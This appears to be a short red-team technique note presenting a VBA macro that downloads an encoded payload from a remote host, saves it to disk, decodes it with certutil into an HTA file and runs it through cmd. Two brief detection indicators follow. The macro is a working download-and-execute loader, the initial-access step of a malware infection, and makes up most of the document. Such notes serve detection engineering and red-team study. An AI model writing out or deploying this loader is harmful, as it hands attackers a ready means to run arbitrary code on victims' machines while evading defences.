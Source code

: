 # Download execute a HTA via certutil

## Execution

1. ServerXMLHTTP to fetch the encoded payload
2. Store the payload as encoded.crt on disc
3. Run decode and run payload via certutil oneliner

```vb
    Sub DownloadAndExec()
        Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
        Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
        xHttp.Open "GET", "https://trusted.domain/encoded.crt", False
        xHttp.Send

        With bStrm
            .Type = 1 '//binary
            .Open
            .write xHttp.responseBody
            .savetofile "encoded.crt", 2 '//overwrite
        End With

        Shell ("cmd /c certutil -decode encoded.crt encoded.hta & start encoded.hta")
    End Sub
```

## Detection

* Base64 decoded
* Decoding of HTA on disc and running via cmd